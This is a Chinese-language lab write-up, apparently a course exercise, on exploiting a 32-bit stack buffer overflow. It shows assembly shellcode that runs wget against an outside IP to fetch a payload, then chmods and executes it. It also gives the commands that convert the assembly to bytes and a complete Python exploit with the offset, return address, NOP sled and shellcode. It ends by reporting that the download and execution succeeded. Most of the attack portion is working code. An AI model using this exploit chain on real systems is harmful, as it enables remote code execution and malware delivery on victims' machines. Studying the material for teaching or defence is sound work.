




# 題目需求
- 透過 stack smashing attack 將 shell code 注入程式漏洞中
- 這個 shell code 需要自動連線到外部 server 並下載惡意檔案
# 環境準備
1. 準備一台 host 在 AWS 上的機器，使用 nginx 和 python 架設http server

2. 在 http server 中放置惡意的 payload，這個 payload 會自動執行以下腳本：

```bash
echo "Hello from remote server! I have been executed!"
```
3. 攻擊步驟：
在被攻擊的那台機器上預期要執行：
(1) wget 18.178.192.170/payload : 從 http server 下載 payload
(2) chmod +x payload : 賦予檔案可執行權限
(3) ./payload : 執行 payload


我們會將以上攻擊步驟分為兩階段執行，第一階段負責下載惡意檔，第二階段負責執行惡意檔，並使用 shell code 來實現攻擊。

# 將要執行的攻擊步驟轉成 shell code
使用 shellcode database 查詢對應的 shellcode 並加以修改 : Shell Code Library

第一階段：下載檔案
```assembly
global _start

section .text

_start:
    ;download 18.178.192.170//x with wget
    push 0xb
    pop eax
    cdq
    push edx
    
    push 0x782f3037 ;x/07 
    push 0x312e3239 ;1.29  
    push 0x312e3837 ;1.87  
    push 0x312e3831 ;1.81  
    mov ecx,esp
    push edx
    
    push 0x74 ;t
    push 0x6567772f ;egw/
    push 0x6e69622f ;nib/
    push 0x7273752f ;rsu/
    mov ebx,esp
    push edx
    push ecx
    push ebx
    mov ecx,esp
    int 0x80
```
第二階段：執行檔案
```assembly
global _start

section .text

_start:
    ;chmod x
    xor ecx,ecx
    xor eax, eax
    push eax
    mov al, 0xf
    push 0x78
    mov ebx, esp
    xor ecx, ecx
    mov cx, 0x1ff
    int 0x80
    
    ;exec x
    xor eax, eax
    push eax
    push 0x78
    mov ebx, esp
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 11
    int 0x80
```

最後，使用 NASM 和 objdump，將 assembly code 轉成 shell code。
```shell
nasm -f elf32 download.asm -o download.o


# 將output轉為C string
objdump -d download.o | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | tr -d '\n' | sed 's/\([0-9a-f]\{2\}\)/\\x\1/g'
```

# 找出漏洞所在位置，進行攻擊
我們希望覆蓋掉漏洞程式的 return address，將其覆蓋為指向 shell code 的所在位置，使其跳轉至 shell code 所在位置並執行。

1. 組合出攻擊漏洞的payload
我們已經知道 vulnerable_function 讀進記憶體的架構如下：
```
高位址 (Higher Memory)     
┌─────────────────────────┐ 
│  Return Address         │ 
├─────────────────────────┤ 
│  address of main()      │
│   frame point           │ 
├─────────────────────────┤ ← EBP
│  額外的對齊位元組          │ 
├─────────────────────────┤ 
│  Local Variables        │ 
│  (Buffer[64])           │   
│                         │
└─────────────────────────┘ ← ESP
低位址 (Lower Memory)       
```

因此，我們需要：

- 使用 b"A" 把 buffer 到 return address之前的空間填滿
- 找到指向 shell code 的 address, 覆蓋掉原本 funtcion 的 return address
- 繼續往上填入 NOP sled與shell code

2. 找出 offset (從 buffer[0] 到 return address 之前的距離)
- 使用 gdb 嘗試覆蓋 return address，
    - 因程式碼 buffer 為 64，推估 buffer 到 return address之前至少有 64 + 4(ebp) = 68 bytes 的距離
    - 從 68 開始以 4 個 bytes 為單位，測出實際 offset 為 76，推測應是從buffer到return address之前，有額外的對齊位元組（8 bytes)所致。


3. 找出ret_addr
ret_addr 的用意在於覆蓋原本 function 的 return address，當 function 執行 ret 指令時，CPU 會將這個地址載入 EIP，跳轉至該位址。

使用 gdb 來找出 NOP sled 與 shell code 可能的位址：


將 ret_addr 設定為 0xffffd500，執行腳本後，成功完成攻擊
```python
import struct
from subprocess import Popen, PIPE, run

def conv(num):
    return struct.pack("<I", num)

def run_like_shell(stage_name, payload, filename):
    print(f"\n{stage_name}...")

    with open(filename, "wb") as f:
        f.write(payload + b"\n")

    run(f"./vulnerable < {filename}", shell=True)

def main():
    offset = 76
    ret_addr = 0xffffd500  
    
    # shellcode 1: wget payload
    download_shellcode = (
        b"\x6a\x0b\x58\x99\x52\x68\x37\x30\x2f\x78"
        b"\x68\x39\x32\x2e\x31\x68\x37\x38\x2e\x31"
        b"\x68\x31\x38\x2e\x31\x89\xe1\x52\x6a\x74"
        b"\x68\x2f\x77\x67\x65\x68\x2f\x62\x69\x6e"
        b"\x68\x2f\x75\x73\x72\x89\xe3\x52\x51\x53"
        b"\x89\xe1\xcd\x80"
    )

    # shellcode 2: chmod + exec
    execute_shellcode = (
        b"\x31\xc9\x31\xc0\x50\xb0\x0f\x6a\x78\x89\xe3"
        b"\x31\xc9\x66\xb9\xff\x01\xcd\x80\x31\xc0\x50"
        b"\x6a\x78\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0"
        b"\x0b\xcd\x80"
    )

    nop_sled = b"\x90" * 100

    # payload = padding + return address + NOP sled + shellcode
    payload_stage1 = b"A" * offset + conv(ret_addr) + nop_sled + download_shellcode
    payload_stage2 = b"A" * offset + conv(ret_addr) + nop_sled + execute_shellcode


    run_like_shell("Stage 1: Download payload", payload_stage1, "payload_stage1")
    run_like_shell("Stage 2: Execute downloaded payload", payload_stage2, "payload_stage2")

if __name__ == '__main__':
    main()
```

執行結果：成功下載惡意檔案並執行



